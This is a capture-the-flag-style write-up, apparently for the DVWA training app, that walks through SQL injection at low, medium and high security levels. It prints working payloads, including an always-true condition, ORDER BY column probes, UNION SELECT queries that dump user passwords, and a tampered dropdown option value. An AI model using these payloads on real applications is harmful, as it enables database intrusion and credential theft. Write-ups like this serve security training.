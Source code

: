 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> ### Objective
> There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi.

## Security Level: Low
> The SQL query uses RAW input that is directly controlled by the attacker. All they need to-do is escape the query and then they are able to execute any SQL query they wish.
> Spoiler: ?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit.

![1](https://github.com/Knign/Write-ups/assets/110326359/e9488e50-a295-4445-92e8-ee26e477daaa)

- We can provide a user ID `1` to the application.

![2](https://github.com/Knign/Write-ups/assets/110326359/6812920c-1919-4b9a-8f8f-6a8997d27876)

- So the user input is inserted in the following query:
```
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```
- Let's check the source code to see how the application behaves.

![3](https://github.com/Knign/Write-ups/assets/110326359/1c4a41e0-1808-41ca-abb9-32883f28294a)

- As we can see, the user input is not sanitized in any way. This is what leaves an application vulnerable to SQLi.
- Let's provide the following input:
```
1' OR '1'='1
```
- Our input causes the application to create the following query:
```
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```
- As 1 is always equal to 1,  all the users first and last name will be output to the page regardless of whether their id is 1 or not.

![4](https://github.com/Knign/Write-ups/assets/110326359/1a0694a8-b898-4d7e-b214-a034519825fc)

- Our job in not done though, we need to find the passwords for the users using a `UNION` attack.
- For a `UNION` query to work, two key requirements must be met:
	- The individual queries must return the same number of columns.
	- The data types in each column must be compatible between the individual queries.
- We can find the number of columns using the following queries provided by Portswigger one by one:
```
' ORDER BY 1#
' ORDER BY 2# 
' ORDER BY 3#
```
- We will be able to notice that the first two queries do not return any result but the third query returns a blank screen.
- This means that there are two columns in the current table.
- Let's create our final payload:
```
' UNION SELECT user, password FROM users#
```

![5](https://github.com/Knign/Write-ups/assets/110326359/755567c6-553e-4b17-9fa7-ec061bb1a41b)


## Security Level: Medium
> The medium level uses a form of SQL injection protection, with the function of "[mysql_real_escape_string()](https://secure.php.net/manual/en/function.mysql-real-escape-string.php)". However due to the SQL query not having quotes around the parameter, this will not fully protect the query from being altered.
> The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form.
> Spoiler: ?id=a UNION SELECT 1,2;-- -&Submit=Submit.

![6](https://github.com/Knign/Write-ups/assets/110326359/e39d6f7b-43ec-4911-b9cc-b66ffc775028)

- Let's first check the source code.

![7](https://github.com/Knign/Write-ups/assets/110326359/c97287bc-87c5-4aef-b115-a098d7bd625a)

- In this level our input is not inserted into quotes.
- We can inspect the code for more information.

![8](https://github.com/Knign/Write-ups/assets/110326359/f34f3bc2-2d37-4ead-93be-d7e5c7b3a154)

- Let's change the `<option>` tag to the following value:
```
<option value="1 OR 1=1">1 OR 1=1</option>
```

![9](https://github.com/Knign/Write-ups/assets/110326359/042d2955-9edb-466d-b046-f32da4b3dc19)

- In order to retrieve the passwords, we can set the `<option>` tag to the following value:
```
<option value="1 UNION SELECT user, password FROM users#">1 UNION SELECT user, password FROM users#</option>
```

![10](https://github.com/Knign/Write-ups/assets/110326359/d218c485-00c4-4f96-bff1-f06d228f94d5)


## Security Level: High
> This is very similar to the low level, however this time the attacker is inputting the value in a different manner. The input values are being transferred to the vulnerable query via session variables using another page, rather than a direct GET request.
> Spoiler: ID: a' UNION SELECT "text1","text2";-- -&Submit=Submit.

![11](https://github.com/Knign/Write-ups/assets/110326359/bdc9100f-4781-4b24-a326-4459cff1fa83)

- Let's check the source code.

![12](https://github.com/Knign/Write-ups/assets/110326359/6b80b238-038e-4d03-aed2-80ab0cd2a2f3)

- The application treats our input the same way it did in the low security level.
- That means the same payload as the low security level should work in this level.
```
' UNION SELECT user, password FROM users#
```

![13](https://github.com/Knign/Write-ups/assets/110326359/2d077567-4ce3-4bb9-a7d6-377d398ed312)
